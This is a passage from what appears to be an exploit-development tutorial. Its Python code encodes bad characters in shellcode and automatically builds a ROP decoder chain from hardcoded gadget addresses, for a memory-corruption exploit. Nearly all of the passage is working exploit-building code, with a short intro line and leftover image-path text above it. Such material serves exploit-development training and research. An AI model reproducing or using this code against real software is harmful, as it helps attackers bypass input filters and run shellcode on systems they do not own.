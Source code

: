 Now, In this way we will automate mostly 90% of everything. We will start by using the ssame encoding function in the basic way, Then we will add a function to create the gadget for us automatically:

```python
from struct import pack
def encode_shellcode(shellcode, badchars, encode_value):
    shellcode_bytes = shellcode.split("\\x")

    bad_index = []
    encoded_shellcode = []
    index = 0
    for byte in shellcode_bytes:
        if byte:
            if byte in badchars:
                encoded_int = (int(byte, 16) + encode_value) & 0xFF
                encoded_hex = hex(encoded_int)[2:]
                encoded_hex = encoded_hex.zfill(2)
                print(f"[!] Bad char \\x{byte} at index {index} Encoded to 0x{encoded_hex}")
                encoded_shellcode.append(f"\\x{encoded_hex}")
                bad_index.append(index)
            else:
                encoded_shellcode.append(f"\\x{byte}")
        index += 1

    encoded_shellcode_str = ''.join(encoded_shellcode)
    print("[+] Encoded Shellcode: shellcode = b\""+encoded_shellcode_str+"\"")
    bad_index.remove(bad_index[-1])
    return encoded_shellcode_str, bad_index

def create_gadget(decode_value, result , bit_width=32):
    hex_result = hex(result)
    mask = (2 ** bit_width) - 1
    negative_hex_result = hex((result) & mask)
    print(f"Result of subtraction: {result}")
    print(f"Hexadecimal representation: {hex_result}")
    print(f"Negative hexadecimal representation: {negative_hex_result}")
    ROPDecoder = pack("<L", 0x5050118e)  # mov eax, esi ; pop esi ; ret  ;
    ROPDecoder += pack("<L", 0x41414141)  # dummy value for pop esi
    ROPDecoder += pack("<L", 0x5052db24)  # pop ecx ; ret  ;
    ROPDecoder += pack("<L", int(negative_hex_result, 16))  # offset to bad char at index
    ROPDecoder += pack("<L", 0x5051579a)  # add eax, ecx ; ret  ; Make eax point to the badchar to decode
    ROPDecoder += pack("<L", 0x505263f9)  # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
    ROPDecoder += pack("<L", 0x41414141)  # dummy value for pop ebx
    ROPDecoder += pack("<L", 0x5053a0f5)  # pop eax ; ret  ;
    ROPDecoder += pack("<L", decode_value)  # decoding value
    ROPDecoder += pack("<L", 0x5050626e)  # add byte [esi+0x3B], ah ;
    return ROPDecoder

def subtract_consecutive_elements(my_list):
    subtraction_results = []
    for i in range(len(my_list) - 1):
        result = my_list[i + 1] - my_list[i]
        subtraction_results.append(result)
        print(f"Offset result from {my_list[i]} to {my_list[i + 1]}: {result}")

    return subtraction_results

with open("shellcode.txt", "r") as file:
    my_shellcode = file.read()
    print("[+] Shellcode:", my_shellcode)
rop = ROPDecoder = pack("<L", 0x5050118e)
badchars= ["00", "09", "0a", "0b", "0c", "0d", "20"]
```